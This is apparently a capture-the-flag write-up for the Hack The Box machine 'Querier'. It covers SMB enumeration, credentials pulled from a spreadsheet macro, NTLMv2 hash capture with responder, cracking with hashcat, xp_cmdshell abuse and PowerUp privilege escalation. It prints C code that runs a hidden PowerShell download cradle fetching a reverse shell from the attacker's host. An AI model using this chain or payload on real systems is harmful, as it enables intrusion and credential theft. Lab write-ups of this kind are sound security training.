

# Querier


```nmap``` Querier

What secrets will you reveal

Likely SMB


If we look at SMB, we see the following shares:


If we connect to the ```Reports``` share, we see that there is a single file inside.


Let's grab a copy of the file, and open it up in Libre Office to see if we can examine the macro in this spreadsheet.

If we look through the macro, there's a connection to a database called with credentials:


If we test those credentials against SMB we can verify that it is Windows authentication and not an SQL internal account.

Let's connect to SQL using Impacket using the database name, account, and server IP.


If we attempt to use ```xp_cmdshell``` we find out that it is not enabled.  If we attempt to enable it, we find we do not have permissions.

With that not being an option, we can attempt to use ```xp_dirtree``` to see if that is allowed out.  We'll setup a listener on port ```445``` to see if we can get response.


So with the fact SQL is trying to make SMB connections outbound, let's attempt to intercept the hash using ```responder```.


Looks like we were able to catch the NTLMv2 hash.  Now to hop over to hashcat.

5600 is the module for NTLMv2, so we'll run ```hashcat -m 5600 ./hashes/responder.txt ./wordlists/rockyou.txt```.


Now we'll log back in to SQL with the new credentials.


If we attempt to run ```xp_cmdshell```, it's disabled.


So now, we'll attempt to re-enable it.


Now that we no longer get an error.  Let's make use of this shell access.  First, let's grab the user flag.


Let's try to get a more convenient shell.

Rather than fight with escaping quotes from ```xp_cmdshell properly```, I'm just going to upload an executable that contains the code below:

>```
>#include <stdlib.h>
>
>int main()
>
>{
>system("powershell.exe -nop -w hidden -c \"IEX(New-Object Net.WebClient).downloadString('http://10.10.██.█/reverse.txt')\"");
>}
>```

First, we'll start up a webserver hosting the ```reverse.txt``` file and the ```ps-shell.exe``` file, as well as start up a ```netcat``` listener.

Then we'll download and run ```ps-shell.exe```.


Much better.

Let's check ```whoami /priv```.


Excellent, we have the ```SeImpersonatePrivilege```.  Mayhaps we can run a potato attack.  But first, let's download a copy of PowerUp to see what we can find.


We'll drop into the command prompt and then back to ```powershell``` with the execution policy set to bypass.  Then we'll launch PowerUp.ps1.



Looks like we have the administrator password.


Let's connect to SMB as the administrator and pick up our root flag.


See you in the next box.

___

[Back](../)
